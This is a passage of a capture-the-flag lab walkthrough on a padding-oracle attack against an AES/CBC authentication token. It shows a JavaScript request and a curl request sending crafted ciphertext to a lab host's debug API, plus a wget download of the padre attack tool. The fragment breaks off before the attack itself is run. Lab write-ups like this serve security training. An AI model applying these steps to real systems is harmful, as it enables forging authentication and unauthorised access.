 ```bash
        var url = "http://localhost/api/debug";
        // Submit the AES/CBC/PKCS payload to get an auth token
        // TODO: Finish logic to return token
        xhr.open("GET", url + "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4", true);

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) {
                console.log("Response: ", xhr.responseText);
            } else {
                console.error("Failed to send request.");
            }
        };
        xhr.send();
    }
</script>
</body>
</html>
```

> **ORACLE AES/CBC/PKCS & API Test Phase**
> 

**For more information:**

[Padding Oracle | HackTricks](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv)

`curl -iLX GET 'http://newyorkflankess.thm:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4'`

```bash
HTTP/1.1 200 OK
Content-Length: 29
Content-Type: text/plain; charset=UTF-8

Custom authentication success
```

> **Padding Oracle Attack Phase**
> 

`wget https://github.com/glebarez/padre/releases/download/v2.1.0/padre-linux-amd64`

```bash
padre-linux-amd64                    100%[====================================================================>]   6.55M  7.33MB/s    in 0.9s    

2024-10-10 06:52:52 (7.33 MB/s) - 'padre-linux-amd64' saved [6868776/6868776]
```

**For source:**

[https://github.com/glebarez/padre](https://github.com/glebarez/padre)
